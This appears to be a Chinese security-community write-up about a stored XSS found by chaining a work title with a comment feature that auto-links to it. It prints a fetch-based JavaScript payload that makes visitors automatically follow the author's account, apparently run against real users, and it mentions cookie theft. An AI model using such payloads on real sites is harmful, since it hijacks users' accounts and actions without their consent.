

# 记一次有趣的 XSS 漏洞挖掘 - 先知社区

记一次有趣的 XSS 漏洞挖掘

- - -

### 功能点一

首先这里的话是存在一个简单的功能点，就是可以发布自己的一个作品，这里挖掘的时候想法肯定就是插一些 xss 的 payload（因为我们就是挖掘 xss 嘛），所以的话就插了一些 payload 进行测试，意料之中，肯定是没有反应的。但是我们肯定是不能放弃的，因为在挖掘的时候很多漏洞可能是组合在一起产生的，所以我们可以多一些脑洞。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240226171833-033caf64-d488-1.jpg)  
这个 name 参数就是我们的作品名称。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240226172210-850b3e20-d488-1.png)  
发出来的效果就是这么一回事。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240226172308-a776ed1a-d488-1.png)  
然后呢，这里没有发现漏洞，那么我们继续测试其他的功能点。

### 功能点二

这个功能点也是很常见的功能，就是评论。评论区一般都是 xss 的高发区也是重点防护区。当然我们也是可以进行一个简单的 payload 测试

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226172631-2045d8aa-d489-1.png)  
一样的没有任何反应，但是这里的话我在看别人的评论的时候就发现了一个好玩的事情，如果评论的时候，我们评论的内容是该网站的其他作品的链接，那么它会自动转换为该作品的名称，一个 a 标签（外站的链接不行）

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226172929-8a63bdce-d489-1.png)  
那么这里就是有思路了，把这两个功能点结合一下或许就可以变成一个有趣的 xss 漏洞。把之前我们存在 xss payload 的作品链接在我们的作品底下进行评论

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226173126-d081eaf6-d489-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226173215-ed72daee-d489-1.png)  
好！符合预期，这里确实存在 xss 漏洞，那么我们如何把这个危害进行扩大呢，我们都知道 xss 主要是因为 js 的问题，而 js 是可以发起 http 请求的，那么这里我们就有一个思路了（当时也是看了大佬挖掘 b 站 xss 漏洞的启发），我们抓取 api，然后自己编写一段请求代码，只要别人访问我们的作品（或者我们在别人作品底下进行评论），都会触发这段 js 代码从而发起请求。借助一些 xss 在线平台，编写以下代码，通过 fetch 发起请求，让其他用户自动关注我的账号。

```bash
function getHeaders() {
      return {
        "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
        "accept-language": "zh-CN,zh;q=0.9",
        "cache-control": "max-age=0",
        "content-type": "application/x-www-form-urlencoded",
        "sec-ch-ua": "\"Not?A_Brand\";v=\"8\", \"Chromium\";v=\"108\", \"Google Chrome\";v=\"108\"",
        "sec-ch-ua-mobile": "?0",
        "sec-ch-ua-platform": "\"Windows\"",
        "sec-fetch-dest": "document",
        "sec-fetch-mode": "navigate",
        "sec-fetch-site": "same-site",
        "Content-Type": 'application/json'
      };
    }
    function apiGet() {
      return fetch("https://xxxxxxx/follow", {
        method: "POST",
        headers: getHeaders(),
        mode: "cors",
        body: JSON.stringify({
          "followed_user_id": xxxxxx,
          "state": 1
        })
      }).then(function () {
        console.log("关注成功");
      })
    }
    apiGet()
```

在其他作品底下进行评论  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240226173827-cb5a4630-d48a-1.png)  
抓包可以看到确实是已经发起请求了，那么坐等消息即可（狗头）  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240226173926-ee20e390-d48a-1.png)  
可以的，百万关注不是梦啊，这里其实可以借助 xss 平台进行更多的操作，比如盗取 cookie...  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240226174103-2807ef68-d48b-1.png)

### 总结

在挖掘一些漏洞的时候我们的思路需要发散一些，碰到功能点我们可以去思考开发者开发这个功能是想实现什么东西，多个不同的功能点是不是组合在一些会产生一些特殊的化学反应。
